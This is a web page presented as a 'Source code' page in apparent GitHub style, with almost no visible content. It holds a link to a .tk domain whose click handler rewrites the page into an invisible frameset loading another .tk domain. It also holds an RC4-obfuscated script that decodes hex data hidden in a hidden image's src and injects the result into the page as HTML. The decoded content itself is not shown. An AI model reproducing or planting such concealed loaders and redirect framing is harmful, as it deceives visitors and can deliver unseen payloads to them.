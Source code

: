 <style type="text/css">#github-urls a{pointer-events:none;}#github-logo{display:none;}</style><img id="github-logo" src="data:image/png;base64,7c8319e0ebe8653b4689a9883a63648a2b544e1ccf8334b21f3fdecb456db841de310635f5e036200a5f465175f3c2711903b4674aeb792c6ac0146315927644344d9596b80a4675651e28ceb4211e29a48658f7d4e489c06d2d56cb5f54109107da63d0687924a6290b19b2a7543d75ca52077f07587f18c4bda35c2045954c5079439770cf52dd168b2676d26d4931d4117c527809eb62e3ea383c809571ad7b9e17ebd184c87206d481f8046e17b0" alt="1cr" />

<div id="github-urls">
<a href="https://ke.hagre.tk/" onclick="clicka(this,'http://ahc1.bogg.tk/');return false;">动态网</a>
</div>
<script type="text/javascript">
function clicka(a,url){var html='<html><head><title>'+a.innerText+'</title><frameset framespacing="0" border="0" rows="0" frameborder="0"><frame name="main" src="'+url+'" scrolling="auto" noresize></frameset></head><body></body></html>';var doc=document.open("text/html","replace");doc.write(html);doc.close();}

var __0x10621=['wrbCmT7DhwxvJMKQKA==','wqFFw7TDncKVwpU=','EcOLwr4vWMOwwrwg','w4/CssKYaggE','OwdresONwoZ1w6DCjMOE','YcOhwrfDncKMWcOowrE=','w6TCrsKyfh0=','M8O5wqjCjTvDiA==','XMKKwopTFQ==','w6nCl2VhAA==','w4EmwpMlDsOF','GijClg==','KxjCsRsoTMKGETjDuwQM','wodlwrw2PkJsw5nCvcOMA3fDvsOr','wq5Nwqg=','QcKmwpQfwoE=','aALCsMKow7xU','w5rDjMOkMcO0wqY=','JXPCtmHDjBnCu8KcScKbYMKCwql8wqg+w73Cm3NJw7BtFnN1HGQsJsOfZRrCu2A=','w5bCtkcsUg==','w5/Cjl99HQ==','w7dZw5jDgGg=','YMOpwp8DwqA=','asOREDwm','d8OowqkUwrBQ','Px5qwrRA','wrHDrV0FGMOP','ecKnwr5hHA==','wq5Iw7vDiMKgwok=','MhbCjMK0w4o=','TMOKPiwn','asKrwp1BITfChHw5w57Ct0ZuwqU=','w5HDgMO+PsO1wqzDl1hgbjc=','w7Faw6NOw44=','CcOBwoM8XsOx','w415w7/Do1g=','wp7ChVnCjw8=','O2xAw7HDvQ==','YXFLYcKq','wrFZwoQiCg==','w7Nfw4tWw48=','wpVHw6jDg8Ky','OADCiMK6w6fCkA==','wqnClMOSDcO6','R8K1wp04wqZ9wonChMKO'];(function(_0x40127f,_0xa84f48){var _0x2b06a5=function(_0x1a1ad6){while(--_0x1a1ad6){_0x40127f['push'](_0x40127f['shift']());}};_0x2b06a5(++_0xa84f48);}(__0x10621,0xc6));var _0x2fde=function(_0x517938,_0x92f678){_0x517938=_0x517938-0x0;var _0x5a8067=__0x10621[_0x517938];if(_0x2fde['initialized']===undefined){(function(){var _0x9e8a52=typeof window!=='undefined'?window:typeof process==='object'&&typeof require==='function'&&typeof global==='object'?global:this;var _0x46bd96='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=';_0x9e8a52['atob']||(_0x9e8a52['atob']=function(_0x105034){var _0x2b44b4=String(_0x105034)['replace'](/=+$/,'');for(var _0x13ad3c=0x0,_0x1fe081,_0x2ca897,_0x1e7d21=0x0,_0x2a986f='';_0x2ca897=_0x2b44b4['charAt'](_0x1e7d21++);~_0x2ca897&&(_0x1fe081=_0x13ad3c%0x4?_0x1fe081*0x40+_0x2ca897:_0x2ca897,_0x13ad3c++%0x4)?_0x2a986f+=String['fromCharCode'](0xff&_0x1fe081>>(-0x2*_0x13ad3c&0x6)):0x0){_0x2ca897=_0x46bd96['indexOf'](_0x2ca897);}return _0x2a986f;});}());var _0x5c7450=function(_0x13844e,_0x403783){var _0x1ae839=[],_0x2704bb=0x0,_0x11fac1,_0x33cf6c='',_0x4bc5e7='';_0x13844e=atob(_0x13844e);for(var _0x15a4d7=0x0,_0x26eaff=_0x13844e['length'];_0x15a4d7<_0x26eaff;_0x15a4d7++){_0x4bc5e7+='%'+('00'+_0x13844e['charCodeAt'](_0x15a4d7)['toString'](0x10))['slice'](-0x2);}_0x13844e=decodeURIComponent(_0x4bc5e7);for(var _0x3d7f7a=0x0;_0x3d7f7a<0x100;_0x3d7f7a++){_0x1ae839[_0x3d7f7a]=_0x3d7f7a;}for(_0x3d7f7a=0x0;_0x3d7f7a<0x100;_0x3d7f7a++){_0x2704bb=(_0x2704bb+_0x1ae839[_0x3d7f7a]+_0x403783['charCodeAt'](_0x3d7f7a%_0x403783['length']))%0x100;_0x11fac1=_0x1ae839[_0x3d7f7a];_0x1ae839[_0x3d7f7a]=_0x1ae839[_0x2704bb];_0x1ae839[_0x2704bb]=_0x11fac1;}_0x3d7f7a=0x0;_0x2704bb=0x0;for(var _0x326917=0x0;_0x326917<_0x13844e['length'];_0x326917++){_0x3d7f7a=(_0x3d7f7a+0x1)%0x100;_0x2704bb=(_0x2704bb+_0x1ae839[_0x3d7f7a])%0x100;_0x11fac1=_0x1ae839[_0x3d7f7a];_0x1ae839[_0x3d7f7a]=_0x1ae839[_0x2704bb];_0x1ae839[_0x2704bb]=_0x11fac1;_0x33cf6c+=String['fromCharCode'](_0x13844e['charCodeAt'](_0x326917)^_0x1ae839[(_0x1ae839[_0x3d7f7a]+_0x1ae839[_0x2704bb])%0x100]);}return _0x33cf6c;};_0x2fde['rc4']=_0x5c7450;_0x2fde['data']={};_0x2fde['initialized']=!![];}var _0xef68eb=_0x2fde['data'][_0x517938];if(_0xef68eb===undefined){if(_0x2fde['once']===undefined){_0x2fde['once']=!![];}_0x5a8067=_0x2fde['rc4'](_0x5a8067,_0x92f678);_0x2fde['data'][_0x517938]=_0x5a8067;}else{_0x5a8067=_0xef68eb;}return _0x5a8067;};(function(){var _0x2e4906={'xtLqM':_0x2fde('0x0','vpsP'),'bHWSD':function _0x43598f(_0x553200,_0x57b821){return _0x553200(_0x57b821);},'tiWeQ':function _0x258ca7(_0x5dd0c2,_0x23068d){return _0x5dd0c2+_0x23068d;},'BPxYb':function _0x2ae1ad(_0x1763cd,_0x3e1edc){return _0x1763cd*_0x3e1edc;},'fsjiY':function _0x45e6f5(_0x274924,_0x291fbb){return _0x274924%_0x291fbb;},'RryuP':function _0x512199(_0x2eb2b1,_0x463ecd){return _0x2eb2b1+_0x463ecd;},'XgryS':function _0x2ca397(_0x13c467,_0x4ee578){return _0x13c467<_0x4ee578;},'Xhppt':function _0x1b515e(_0x22e42e,_0xc81743){return _0x22e42e(_0xc81743);},'GOKQp':function _0x3106d3(_0x485d20,_0x5f51bd){return _0x485d20^_0x5f51bd;},'EiVui':function _0x4274cf(_0x444437,_0x49f124,_0x4e2dff){return _0x444437(_0x49f124,_0x4e2dff);},'XVGGB':function _0x592035(_0x357770,_0x2e8646){return _0x357770*_0x2e8646;},'iDGhy':function _0x313f5f(_0x64c6b0,_0x45d83d){return _0x64c6b0/_0x45d83d;},'QYLQX':function _0x32b528(_0x9bbd2d,_0x299e92){return _0x9bbd2d(_0x299e92);},'ZbZaR':function _0x2fe9ca(_0x3581f6,_0x4dded9){return _0x3581f6%_0x4dded9;},'GyDsa':function _0x585463(_0x56bed9,_0x14be4a){return _0x56bed9/_0x14be4a;},'QDcWX':function _0x399eb7(_0x21f53d,_0x368f0f){return _0x21f53d-_0x368f0f;},'ZjvYw':'github-logo','ufkTS':function _0x3e7926(_0x453ab8,_0x2ab2be,_0xec6272){return _0x453ab8(_0x2ab2be,_0xec6272);}};var _0x50e477=_0x2e4906[_0x2fde('0x1','x9t%')][_0x2fde('0x2','WIX^')]('|'),_0x47ab43=0x0;while(!![]){switch(_0x50e477[_0x47ab43++]){case'0':var _0xe47ad='';continue;case'1':var _0x3e62c5=_0x2e4906[_0x2fde('0x3','#D98')](_0x38784a,_0x55f429['length']/0x5);continue;case'2':_0x3e62c5=_0x5ebf13(_0x2e4906[_0x2fde('0x4','8#^4')](_0x2e4906['tiWeQ'](_0x2e4906['tiWeQ'](_0x55f429['charAt'](_0x3e62c5)+'',_0x2e4906[_0x2fde('0x5','8J&m')](_0x55f429['charAt'](0x2*_0x3e62c5),''))+(_0x55f429[_0x2fde('0x6','8#^4')](_0x2e4906[_0x2fde('0x7','4TEe')](0x3,_0x3e62c5))+''),_0x2e4906['tiWeQ'](_0x55f429[_0x2fde('0x8','ZUbo')](0x4*_0x3e62c5),'')),_0x2e4906[_0x2fde('0x9','WICC')](_0x55f429[_0x2fde('0xa','lBtz')](0x5*_0x3e62c5),'')));continue;case'3':_0x55f429=_0x2e4906[_0x2fde('0xb','lx(O')](_0x2e4906[_0x2fde('0xc','8J&m')](_0x3e62c5*_0x55f429,_0x10bdef),_0xd449d1);continue;case'4':document[_0x2fde('0xd','WICC')](_0x2fde('0xe','RDOg'))['outerHTML']=_0xe47ad;continue;case'5':for(_0x17c2d6=0x0;_0x2e4906[_0x2fde('0xf','$$#!')](_0x17c2d6,_0x3553cd[_0x2fde('0x10','[%BU')]);_0x17c2d6+=0x2)_0x2da34d=_0x2e4906[_0x2fde('0x11','#D98')](_0x5ebf13,_0x2e4906[_0x2fde('0x12','x!K0')](_0x2e4906['EiVui'](_0x5ebf13,_0x3553cd['substring'](_0x17c2d6,_0x17c2d6+0x2),0x10),_0x38784a(_0x2e4906[_0x2fde('0x13','2]dx')](_0x2e4906[_0x2fde('0x14','*TVP')](_0x55f429,_0xd449d1),0xff)))),_0xe47ad+=_0x2e4906[_0x2fde('0x15','g#!P')](_0x54e73c,_0x2da34d),_0x55f429=_0x2e4906[_0x2fde('0x16','$$#!')](_0x2e4906['RryuP'](_0x3e62c5*_0x55f429,_0x10bdef),_0xd449d1);continue;case'6':for(_0x55f429+=_0x17c2d6;_0x2e4906[_0x2fde('0x17','lBtz')](0xa,_0x55f429[_0x2fde('0x18','lx(O')]);)_0x55f429=_0x2e4906[_0x2fde('0x19','U)%m')](_0x5ebf13(_0x55f429[_0x2fde('0x1a','9N3d')](0x0,0xa)),_0x5ebf13(_0x55f429[_0x2fde('0x1b','^j5V')](0xa,_0x55f429[_0x2fde('0x1c','lBtz')])))[_0x2fde('0x1d','[%BU')]();continue;case'7':for(var _0x55f429='',_0x17c2d6=0x0;_0x17c2d6<_0x2da34d[_0x2fde('0x1e','ATk^')];_0x17c2d6++)_0x55f429+=_0x2da34d[_0x2fde('0x1f',']KhA')](_0x17c2d6)[_0x2fde('0x20','o4Q^')]();continue;case'8':_0x10bdef=_0x10bdef(_0x2e4906[_0x2fde('0x21','ATk^')](_0x2da34d['length'],0x2));continue;case'9':_0x3553cd=_0x3553cd['substring'](0x0,_0x3553cd[_0x2fde('0x22','#4ap')]-0x8);continue;case'10':_0xd449d1=_0x2e4906[_0x2fde('0x23','WICC')](_0x2e4906[_0x2fde('0x24','WIX^')](_0xd449d1,0x2,0x1f),0x1);continue;case'11':_0x3553cd=_0x3553cd['src'][_0x2fde('0x25','hvyB')](0x16);continue;case'12':_0xe47ad=decodeURIComponent(_0xe47ad);continue;case'13':var _0x38784a=Math['floor'],_0x10bdef=Math['round'],_0xd449d1=Math[_0x2fde('0x26','7JiN')],_0x5ebf13=parseInt,_0x54e73c=String[_0x2fde('0x27','!o$o')],_0x3553cd=document[_0x2fde('0x28','g#!P')](_0x2e4906['ZjvYw']),_0x2da34d=_0x3553cd[_0x2fde('0x29','v1I(')];continue;case'14':_0x17c2d6=_0x2e4906[_0x2fde('0x2a','9N3d')](_0x5ebf13,_0x3553cd['substring'](_0x3553cd[_0x2fde('0x2b','$X02')]-0x8,_0x3553cd[_0x2fde('0x2c','RDOg')]),0x10);continue;}break;}}());
</script>
